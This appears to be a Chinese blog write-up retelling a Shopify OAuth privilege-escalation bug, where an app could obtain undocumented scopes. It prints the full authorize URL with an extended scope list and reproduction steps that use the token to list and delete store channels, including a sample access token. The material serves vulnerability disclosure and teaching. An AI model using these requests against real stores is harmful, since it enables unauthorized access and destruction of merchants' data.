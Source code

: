 api漏洞系列-shopify中一个越权漏洞

## 前言

声明：文章中涉及的程序(方法)可能带有攻击性，仅供安全研究与教学之用，读者将其信息做其他用途，由用户承担全部法律及连带责任，文章作者不承担任何法律及连带责任。

## 主要逻辑

这是文档中所讲到的应用程序可以访问的范围(https://docs.shopify.com/api/authentication/oauth#scopes),但应用可以请求/获得更多范围的访问权，而其中有些范围本不应该是可访问的。


## 请求

URL GET/POST data: GET METHOD:

`https://victim.myshopify.com/admin/oauth/authorize?client_id=fc49e813f5aad9c8d8f6511703 1a9684&scope=read_apps,write_apps,write_content,read_content,write_customers,read_cust omers,read_disputes,write_fulfillments,read_fulfillments,write_gift_cards,read_gift_cards,writ e_orders,read_orders,read_products,write_products,read_script_tags,write_script_tags,write_ scripts,read_scripts,read_shipping,write_shipping,write_social_network_accounts,read_social_ network_accounts,read_themes,write_themes,read_channels,write_channels&redirect_uri=htt p://while42.myshopify.com/&state=123&shop=while42`


## 复现步骤


使用请求的access_token访问任何作用域。

1.在以下请求中使用你的应用程序的access_token (X-Shopify-Access-Token)

2.`GET /admin/channels.json` (获取所有的 channels IDs)

3.`DELETE /admin/channels/a_Channel_ID.json` (删除任何channel)

在`while42.myshopify.com `处测试:(用`X-Shopify-Access-Token: 77a01fc64f65fd16b0b38bc31694e4ce`)


![img_20.png](img_20.png)
